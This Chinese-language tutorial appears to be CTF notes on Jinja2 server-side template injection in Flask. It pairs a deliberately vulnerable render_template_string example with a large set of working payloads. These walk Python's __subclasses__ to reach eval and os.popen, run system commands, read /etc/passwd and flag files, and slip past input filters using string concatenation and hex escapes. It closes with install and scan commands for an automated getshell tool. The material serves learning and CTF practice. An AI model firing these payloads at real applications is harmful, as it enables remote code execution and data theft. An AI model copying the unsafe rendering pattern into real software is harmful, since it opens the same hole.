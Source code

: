 ## **jinjia2**
jinjia2是python的flask框架使用的模板引擎

服务端控制层代码：
```
from flask import *

app = Flask(__name__)
app.config['JSON_AS_ASCII'] = False

@app.route('/', methods=['post', 'get'])
def index():
    return render_template('index.html')

@app.route('/login', methods=['post', 'get'])
def login():
    name = request.args.get('name', '默认字')
    # 对应的，当html是一个文件时，使用render_template 函数来渲染一个指定的文件
    return render_template('login.html'，name=name)
    # login.html使用{{name}}显示默认字

@app.route("/test", methods=['post', 'get'])
def test():
    # 接受参数名为name的参数传入
    name = request.args.get('name', '默认字')
    # 设置一个模板html，将name的值以%s输出
    html = '''<h3>your input %s</h3>'''%name
    # 将html以字符串模板的形式渲染
    return render_template_string(html)

if __name__ == '__main__':
    app.run(debug=True)
```
函数render_template_string()在渲染前端页面时没有考虑输入的参数，导致注入。
jinjia2模板渲染:
```
{{ ... }}：装载一个变量，模板渲染的时候，会使用传进来的同名参数这个变量代表的值替换掉。
{% ... %}：装载一个控制语句。
{# ... #}：装载一个注释，模板渲染的时候会忽视这中间的值

1. 测试：
/test?name={{7*7}}
回显：
your input 47

2. 测试：
/test?name={{7*'7'}}
回显：
your input 77777777
```


^
## **模板中可以使用的属性**
```
返回信息
{{self.__dict__}}
{{config}}


使用内置函数查看全局变量字典
{{url_for.__globals__}}
若里面有current_app，查看当前APP配置，里面可能有flag变量值。
{{url_for.__globals__['current_app'].config}}
也可
{{get_flashed_messages.__globals__['current_app'].config}}


__class__ 返回类型所属的对象。
__mro__返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析，这里也就是class返回的对象所属的类。
__base__返回该对象所继承的基类，这里也就是class返回的对象所属的类。
__subclasses__返回基类中的所有子类，每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的的引用的列表。

__globals__对包含函数全局变量的字典的引用，
里面包括get_flashed_messages()返回在Flask中通过 flash() 传入的闪现信息列表。
把字符串对象表示的消息加入到一个消息队列中，
然后通过调用get_flashed_messages() 方法取出
(闪现信息只能取出一次，取出后闪现信息会被清空)。

1. 测试：
/test?name={{''.__class__}}
回显：
 your input <class 'str'>

2. 测试：
/test?name={{''.__class__.__base__}}
回显:
your input <class 'object'>

3. 测试:
/test?name={{''.__class__.__base__.__subclasses__()}}
回显:
your input object基类的子类
即我们可以利用的类。
```

^
## **利用**
自动化寻找利用类直接RCE
```
{% for c in [].__class__.__base__.__subclasses__() %} 
  {% if c.__name__ == 'catch_warnings' %} 
    {% for b in c.__init__.__globals__.values() %} 
      {% if b.__class__ == {}.__class__ %}
        {% if 'eval' in b.keys() %} 
          {{ b['eval']('__import__("os").popen("ls").read()') }}    //这里的ls就是需要的执行命令
        {% endif %} 
      {% endif %} 
     {% endfor %} 
  {% endif %}
{% endfor %}



{{ config.__class__.__init__.__globals__['os'].popen('ls /').read() }}


#读取文件与写文件类
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__[%27open%27](%27/etc/passwd%27).read()}}
#执行命令
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__['eval']("__import__('os').popen('id').read()")}}
#命令执行：
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls').read()") }}{% endif %}{% endfor %}
#文件操作
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}
```

若经过{{''.__class__.__base__.__subclasses__()}}，用工具或手工查询存在的利用类和位置后，可以借助的类反射调用方法：
```
<class 'warnings.catch_warnings'>，没有内置os模块可能在第59位。可以导入后命令执行。
<class 'site._Printer'> 内含os模块（不需要import os） ，可能在第71位，可以借助这些类来执行命令。
_io.TextIOWrapper 可以文件读取，可能在122位。
```

大多数题目的flag均藏在系统中的某个文件内。

1、warnings.catch_warnings类利用：
```
目录查询
{{[].__class__.__base__.__subclasses__()[59].__init__['__glo'+'bals__']['__builtins__']['eval']("__import__('os').popen('ls').read()")}}
读取目录flask
{{[].__class__.__base__.__subclasses__()[59].__init__['__glo'+'bals__']['__builtins__']['eval']("__import__('os').popen('ls /flasklight').read()")}}
读取flag
{{[].__class__.__base__.__subclasses__()[59].__init__['__glo'+'bals__']['__builtins__']['eval']("__import__('os').popen('cat /flasklight/coomme_geeeett_youur_flek ').read()")}}


```

2、site._Printer类利用：
```
目录查询
{{[].__class__.__base__.__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('ls').read()}}
 本来想直接用listdir('/')，但这里listdir同样被ban了
读取目录flasklight
{{[].__class__.__base__.__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('ls /flasklight').read()}}
读取flag
{{[].__class__.__base__.__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('cat coomme_geeeett_youur_flek').read()}


```

3、_io.TextIOWrapper类利用：
```
{{[].__class__.__base__.__subclasses__()[122]('/flag').read()}}
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['open']('/etc/passwd').read()}}
```

^
## **绕过**
案例：
如由于使用['__globals__']会造成500的服务器错误信息，并且当我直接输入search=globals时页面也会500，觉得这里应该是被过滤了，所以这里采用了字符串拼接的形式['__glo'+'bals__']
```
等效：
* `request.__class__`
* `request["__class__"]`
* `request|attr("__class__")`

* `array[0]`
* `array.pop(0)`
```
单引号'被过滤可以用双引号"代替；至于点.和下划线_被过滤可以采用16进制来表示，用[](类似数组下标)的方式选定。知道怎么过滤了那就照着以前payload修改就好了。
```
{{config["\x5f\x5fclass\x5f\x5f"]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]["os"]["popen"]("whoami")["read"]()}}

利用frozen_importlib_external.FileLoader类
get_data方法直接读文件
{{()["\x5F\x5Fclass\x5F\x5F"]["\x5F\x5Fbases\x5F\x5F"][0]["\x5F\x5Fsubclasses\x5F\x5F"]()[91]["get\x5Fdata"](0, "/proc/self/fd/3")}}
```
SSTI绕过注入:<https://xz.aliyun.com/t/3679#toc-11>
ctf详解:<https://www.cnblogs.com/Article-kelp/p/14797393.html#questionOne>
python解题模板:<https://blog.csdn.net/qq_51096893/article/details/122020518>
全自动绕过getshell的jinjia2工具：<https://github.com/Marven11/Fenjing>

```
pip install fenjing
fenjing webui
# fenjing scan --url 'http://xxxx:xxx'
```

